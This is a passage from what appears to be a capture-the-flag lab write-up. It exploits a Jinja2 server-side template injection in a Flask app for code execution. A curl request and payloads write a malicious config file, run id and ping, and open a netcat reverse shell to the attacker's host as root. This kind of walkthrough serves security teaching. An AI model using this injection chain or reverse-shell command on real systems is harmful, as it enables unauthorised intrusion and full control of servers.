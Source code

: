 
### Code Execution

Now I’ll use the code execution payload. First, I’ll see if I can get a simple `id` to run:

```

root@kali# curl -X POST http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY1MTA1Mn0.YuW5qoU_-327dbMSnydFQ6q5wyFPw3PFlDHDOjuu2Mk" --data "name=name&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('id',shell=True) }}"
Name: name desc: None True uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```

Next, I’ll just ping myself:

```

name=GBR-4045&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('ping -c 1 10.10.14.15',shell=True) }}

```

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
20:32:26.216742 IP 10.10.10.96 > kali: ICMP echo request, id 40448, seq 0, length 64
20:32:26.216765 IP kali > 10.10.10.96: ICMP echo reply, id 40448, seq 0, length 64

```

Now I’ll go for the full shell:

```

name=GBR-4045&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('rm /tmp/d; mkfifo /tmp/d; cat /tmp/d | /bin/sh -i 2>%261 | nc 10.10.14.15 443 > /tmp/d',shell=True) }}

```

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.96] 46860
/bin/sh: can't access tty; job control turned off
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/app # hostname
tix-app

```
